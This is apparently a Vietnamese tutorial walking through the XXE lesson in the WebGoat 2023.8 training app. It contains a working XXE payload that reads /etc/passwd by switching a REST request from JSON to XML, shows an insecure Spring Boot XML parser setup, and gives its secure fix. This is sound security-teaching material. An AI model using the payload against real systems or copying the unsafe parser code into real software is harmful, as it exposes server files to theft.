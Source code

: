 ```yaml
---
title: 1.07 | XXE
slug: XXE-07
description: Bài viết này sẽ hướng dẫn cách tấn công XXE trên WebGoat 2023.8
image: https://tiennhm.github.io/img/docs/database.jpg
sidebar_position: 1
# sidebar_class_name: hidden
tags: 
    - web-security
    - webgoat
    - security-misconfiguration
    - xxe
    - webgoat-2023.8
keywords: [web-security, webgoat, security-misconfiguration, xxe, webgoat-2023.8]
enableComments: true # for Gisqus comments, set to true
draft: false # set to true to hide this post from the site
---
```


> 🚀 **XXE Attack trong Modern REST API**

#### 🎯 **Mục tiêu**
- Khai thác lỗ hổng XXE trên REST API hiện đại.
- Thực hiện XML Injection bằng cách thay đổi `Content-Type`.
- Phát hiện và bảo vệ API khỏi XXE.


## 🔍 **1. Phân tích bài toán**
- API đang xử lý JSON (`Content-Type: application/json`).
- Nếu API cũng hỗ trợ XML mà không kiểm soát đúng cách, có thể bị **XXE Attack**.
- **Mục tiêu:** Chuyển đổi request từ JSON sang XML và thực hiện XXE Injection.


## 🛠 **2. Thử nghiệm tấn công XXE**
### **🔎 2.1. Kiểm tra request gốc (JSON)**
Request hợp lệ khi gửi bình luận:
```http
POST /WebGoat/xxe/simple
Content-Type: application/json

{
  "text": "This is a safe comment"
}
```
👉 **Dữ liệu được xử lý bình thường**.


### **🚨 2.2. Tấn công XXE (Chuyển JSON -> XML)**
Sử dụng **Burp Suite**, **ZAP** hoặc **DevTools** để thay đổi request:

#### **🛑 Chỉnh sửa Header & Body**
```http
POST /WebGoat/xxe/simple
Content-Type: application/xml

<?xml version="1.0"?>
<!DOCTYPE comment [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<comment>
  <text>&xxe;</text>
</comment>
```
🕵 **Mục đích**:
- **Thay đổi `Content-Type` từ JSON sang XML**.
- **Thêm một thực thể `xxe` trỏ đến file hệ thống**.
- **Nếu API dễ bị tấn công, nó sẽ trả về nội dung file `/etc/passwd`** (Linux).

Trong trường hợp sử dụng Windows, bạn có thể thay đổi đường dẫn file `C:\Windows\System32\drivers\etc\hosts` thay cho `/etc/passwd` để kiểm tra.

#### **📌 Nếu API dễ bị tấn công, phản hồi có thể là:**
```json
{
  "lessonCompleted": false,
  "feedback": "Your comment: root:x:0:0:...",
  "output": "User details leaked!"
}
```
👉 **Lỗ hổng XXE đã khai thác thành công!**


## 🔎 **3. Vì sao API bị tấn công?**
### **⚠️ Sai sót trong xử lý XML**
#### **❌ Cấu hình không an toàn trong Spring Boot**
```java
public XmlMapper xmlMapper() {
  return new XmlMapper(XMLInputFactory.newInstance());
}
```
🚨 **Lỗi:**
- Sử dụng **`XMLInputFactory.newInstance()` trực tiếp** mà không chặn các thực thể XML.
- Không tắt **`SUPPORT_DTD`** và **`IS_SUPPORTING_EXTERNAL_ENTITIES`** → **Dễ bị XXE!**


## ✅ **4. Cách phòng chống XXE**
### **🛡 4.1. Cấu hình XML Parser an toàn**
```java
private static XMLInputFactory secureXmlInputFactory() {
  XMLInputFactory factory = XMLInputFactory.newInstance();
  factory.setProperty(XMLInputFactory.SUPPORT_DTD, false);
  factory.setProperty(XMLInputFactory.IS_SUPPORTING_EXTERNAL_ENTITIES, false);
  return factory;
}

public XmlMapper xmlMapper() {
  return new XmlMapper(secureXmlInputFactory());
}
```
📌 **Cách fix:**
- **Tạo `XMLInputFactory` riêng** và **tắt các thực thể XML**.
- **Không sử dụng `XMLInputFactory.newInstance()` trực tiếp**.


### **🛡 4.2. Các biện pháp bảo vệ khác**
| 🔍 **Biện pháp** | ✅ **Mô tả** |
|----------------|-------------|
| **Tắt DTD và External Entities** | `SUPPORT_DTD = false`, `IS_SUPPORTING_EXTERNAL_ENTITIES = false` |
| **Giới hạn định dạng input** | Chỉ chấp nhận JSON nếu không cần XML |
| **Dùng thư viện an toàn** | Dùng `Jackson`, `DOM/SAX Parser` với cấu hình bảo mật |
| **Giới hạn kích thước XML input** | Tránh tấn công DoS với XML Bomb |
| **Dùng JSON thay vì XML** | Hạn chế hỗ trợ XML nếu không cần thiết |


## 🔥 **5. Kết luận**
- **API REST hiện đại có thể bị tấn công XXE nếu hỗ trợ XML không đúng cách**.
- **Tấn công bằng cách thay đổi `Content-Type` và chèn thực thể XML**.
- **Luôn kiểm tra cẩn thận và cấu hình XML parser an toàn**.
- **Ưu tiên JSON nếu không cần thiết hỗ trợ XML**.

📌 **Tham khảo:** [OWASP XXE Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html) 🚀